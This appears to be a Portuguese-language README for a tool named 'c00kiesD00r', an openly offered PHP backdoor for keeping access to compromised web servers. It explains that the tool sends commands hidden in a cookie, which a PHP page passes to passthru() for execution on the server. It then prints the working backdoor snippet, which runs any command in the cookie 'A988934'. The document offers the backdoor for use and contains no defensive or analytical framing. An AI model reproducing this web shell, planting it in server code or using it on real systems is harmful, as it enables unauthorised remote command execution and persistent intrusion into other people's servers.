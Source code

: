 # c00kiesD00r
Cookies backdoor, aplicação utilizada para manter acesso em servidores Web.
A mesma envia requisições do tipo GET com parametros setados no User-Agent para determinada página PHP, onde a mesma faz a leitura dos cookies recebidos e passa como parâmetro para a função passthru() do PHP para que o comando seja, claro, executado no servidor. O programa faz a leitura do retorno do comando executado no servidor e exibe para usuário.

PHP Backdoor...

      if (isset($_COOKIE['A988934']) && !empty($_COOKIE['A988934'])) {
        die(passthru($_COOKIE['A988934']));
      }

